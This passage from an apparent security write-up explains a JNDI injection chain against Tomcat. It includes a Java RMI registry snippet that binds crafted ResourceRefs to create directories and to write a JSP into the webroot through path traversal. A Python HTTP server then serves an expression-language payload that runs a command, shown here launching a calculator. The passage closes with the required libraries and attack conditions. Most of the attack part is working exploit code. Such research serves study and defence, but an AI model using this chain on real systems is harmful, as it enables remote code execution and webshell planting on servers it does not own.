 ```java
        ref1.add(new StringRefAddr("forceString", "x=mkdir"));
        ref1.add(new StringRefAddr("x", "http:/127.0.0.1:1337/"));
        
        // for a file write
        ResourceRef ref2 = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "", true, "org.apache.catalina.users.MemoryUserDatabaseFactory",null);
        ref2.add(new StringRefAddr("readonly", "false"));
        ref2.add(new StringRefAddr("pathname", "http://127.0.0.1:1337/../../../../some/path/to/apache-tomcat-9.0.65/webapps/ROOT/poc.jsp"));
        
        registry.bind("Dir", new ReferenceWrapper(ref1));
        registry.bind("Rce", new ReferenceWrapper(ref2));
    }
}
```

But of course, what is the attacker going to write? It turns out that they can't use double quotes or angle brackets due to XML node parsing in the `Digester` class. The attacker can, of course, side step that problem by using *expression language* if they were to write a JSP file. 

```python
#!/usr/bin/env python3
from http.server import BaseHTTPRequestHandler, HTTPServer

class el(BaseHTTPRequestHandler):
    def log_message(self, format, *args):
        return
    def do_GET(self):
        if self.path.lower().strip().endswith('/poc.jsp'):
            print("(+) request recieved: %s" % self.path)
            message = """<tomcat-users>
    <role rolename="${Runtime.getRuntime().exec('gnome-calculator')}" />
</tomcat-users>"""
            self.send_response(200)
            self.end_headers()
            self.wfile.write(message.encode('utf-8'))
            self.wfile.write('\n'.encode('utf-8'))
        return

if __name__ == '__main__':
    HTTPServer(('0.0.0.0', 1337), el).serve_forever()
```

For a JNDI client to be vulnerable, the following libraries are required (versions shouldn't matter):

1. tomcat-catalina-9.0.24.jar
2. tomcat-juli-10.0.23.jar
3. tomcat-util-10.0.23.jar
4. tomcat-util-scan-10.0.23.jar
5. velocity-1.7.jar

The vulnerable application would need to have a writeable current working directory by the process owner and an attacker would also need to trigger the JNDI injection twice. The attack should work on either windows or unix based systems since `getParentFile` escapes the forward slash and in both cases a path can be constructed from forward slashes.
